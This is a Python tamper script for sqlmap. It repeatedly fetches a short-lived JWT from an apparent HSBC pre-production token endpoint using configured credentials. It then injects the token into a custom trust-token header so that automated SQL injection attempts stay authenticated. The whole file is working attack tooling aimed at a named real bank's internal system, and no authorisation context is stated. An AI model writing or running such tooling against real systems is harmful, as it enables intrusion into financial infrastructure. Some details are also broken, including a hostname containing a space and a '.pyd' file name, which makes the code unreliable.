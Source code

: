 #!/usr/bin/env python3
# encoding: utf-8
#
# Tamper script for SQLmap: automatically refreshes the short‑lived JWT
# and injects it into the X‑HSBC‑E2E‑Trust‑Token header on every request.
#
# Place this file into your tamper directory and invoke with:
#   sqlmap … --tamper=auth_token_refresh.pyd

import time
import json
import base64

try:
    # SQLmap’s internal enum for tamper priority
    from lib.core.enums import PRIORITY
    __priority__ = PRIORITY.NORMAL
except ImportError:
    # fallback if running outside of SQLmap install
    __priority__ = 0

# ─── CONFIGURATION ──────────────────────────────────────────────────────────────
# Update these to match your environment:
TOKEN_URL = "https://cmb-i b2b-dsp-pprod-eu.systems.uk.hsbc:8443" \
            "/dsp/rest-sts/DSP_iB2B/iB2B_tokenTranslator?_action=translate"
USERNAME  = ""
PASSWORD  = ""
# ────────────────────────────────────────────────────────────────────────────────

# Global cache for token and expiry time
_cached_token  = None
_expiry_unix   = 0.0

def _fetch_new_token():
    """
    POST to the DSP_iB2B tokenTranslator endpoint, parse out the issued_token,
    and reset our expiry clock to ~25s from now (so we refresh before 30s expiry).
    """
    global _cached_token, _expiry_unix

    # build the JSON body
    body = {
        "input_token_state": {
            "token_type": "CREDENTIAL",
            "username": USERNAME,
            "password": PASSWORD
        },
        "output_token_state": {
            "token_type": "JWT"
        }
    }
    data = json.dumps(body).encode("utf-8")

    # perform the HTTPS request
    import urllib.request
    req = urllib.request.Request(
        TOKEN_URL,
        data=data,
        headers = {
            "Content-Type": "application/json"
        }
    )
    with urllib.request.urlopen(req, timeout=10) as resp:
        resp_json = json.loads(resp.read().decode("utf-8"))

    # extract token and set next-refresh threshold
    _cached_token = resp_json.get("issued_token", "")
    # refresh after 25s so we never send an expired token
    _expiry_unix  = time.time() + 25
    return _cached_token

def dependencies():
    """
    SQLmap calls this once at startup. Grab the first token here.
    """
    _fetch_new_token()

def tamper(payload, **kwargs):
    """
    Called for each injection attempt. We ignore the payload itself and
    instead ensure our header is up-to-date.
    """
    global _cached_token, _expiry_unix

    # refresh if we're past our refresh threshold
    if not _cached_token or time.time() >= _expiry_unix:
        _fetch_new_token()

    # kwargs['headers'] is the dict of outgoing headers
    headers = kwargs.get("headers")
    if isinstance(headers, dict):
        headers["X-HSBC-E2E-Trust-Token"] = _cached_token

    # return the payload unchanged
    return payload
